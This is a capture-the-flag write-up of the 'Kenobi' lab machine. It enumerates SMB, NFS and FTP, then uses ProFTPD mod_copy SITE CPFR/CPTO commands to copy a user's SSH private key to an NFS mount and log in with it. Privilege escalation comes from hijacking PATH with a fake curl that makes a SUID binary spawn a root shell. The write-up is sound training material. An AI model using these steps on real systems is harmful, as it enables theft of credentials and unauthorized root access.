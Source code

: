 # Kenobi

{% hint style="info" %}
A basic NFS, FTP and SMB machine. exploiting all of those will lead to an  RCE from which we can <mark style="color:red;">**manipulate a user's ssh key**</mark>.

Then for PrivEsc we will be redirecting the curl command in a binary with SUID bit enabled to spawn a shell for us using the <mark style="color:red;">**$PATH**</mark> variable. Same technique used [here ](wonderland.md)for lateral movement.
{% endhint %}

## Enumeration

### Nmap

```bash
$nmap <target-ip> -sV -sC -T4 -Pn -vv -oN kenobi-def-scan
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I often jump to enumerating the FTP portal, but it lead to nothing so i went on to SMB.

### SMB

```bash
$nmap <target-ip> -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse -T4 -Pn -vv -oN kenobi-smb-scan
```

Which leads to 3 SMB shares available:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Which is also confirmed with :&#x20;

```bash
$smbclient -L <target-ip>
```

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

So we try to connect to it:&#x20;

```bash
$smbclient //<target-ip>/anonymous
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
After much struggle, it turns out that I had a problem with my internet connection. Upon changing my router everything went flawless and the download was successful.
{% endhint %}

Now reading the logs we find this:&#x20;

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Okay the ssh keys of the user kenobi are stored in <mark style="color:purple;">/home/kenobi/.ssh/id\_rsa</mark> file.

Now we move on there's nothing else helpful in that log file.

### NFS

```
$nmap <target-ip> -p 111,2049 --script=nfs* 
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### FTP

Okay now we go back to the FTP server. Banner grabbing show us the version :&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Okay let's look for an exploit:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Okay it's all about this mod\_copy thing.&#x20;

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Okay this exploit description is pretty self explanatory. We will aim at mounting whatever we want to a specific place we want .&#x20;

* So what do we have? the ssh key file of the kenobi user.&#x20;
* Where should we put it? In the NFS mounting directory.

Here we go.

## Foothold

So we will be using the CPFR (copy from) and CPTO (copy to) commands with the FTP server to put the <mark style="color:green;">/home/kenobi/.ssh/id\_rsa</mark> file in <mark style="color:red;">/var.</mark>

{% hint style="success" %}
It is always a good practice to copy it to the temporary directory just to keep the machine clean for other players.
{% endhint %}

```bash
$nc <target-ip> 21
<...>
SITE CPFR /home/kenobi/.ssh/id_rsa
<...>
SITE CPTO /var/tmp/id_rsa
<...>
```

```bash
$mkdir target-NFS
$sudo mount -t nfs <taget-ip>:/var ./target-NFS/ -o nolock
$cd target-NFS
```

Now we just connect to the target as kenobi using that key :smile:

```bash
$cp tmp/id_rsa /home/<user>/thm/kenobi                                                                  
$sudo chmod 600 id_rsa                                    
$ssh -i id_rsa kenobi@<target-ip>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Priv Esc

{% hint style="warning" %}
This was the same technique we used on [Wonderland ](wonderland.md)machine to pivot from a user to another.
{% endhint %}

For priv esc, without directly going into automated scripts, we should look for some low hanging fruits. sudo -l gave un nill, we pass on to SUID/GUID bits.

```bash
$find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Okay a binary called menu, that's something. Let's run it&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Okay the status check option could lead to something, if it probes the website using a vulnerable command or anything of that sort, we could take advantage of that. Let's do some static analysis on this file (basic CTF RE/pwn scenario)

```bash
$strings /usr/bin/menu
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Yeah well, executing curl, but WHICH curl ? :smile: if we change the $PATH variable to something of our choice instead of that curl command, it will execute ours.

```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod +x /tmp/curl 
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ /usr/bin/menu 
```

<figure><img src="../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>
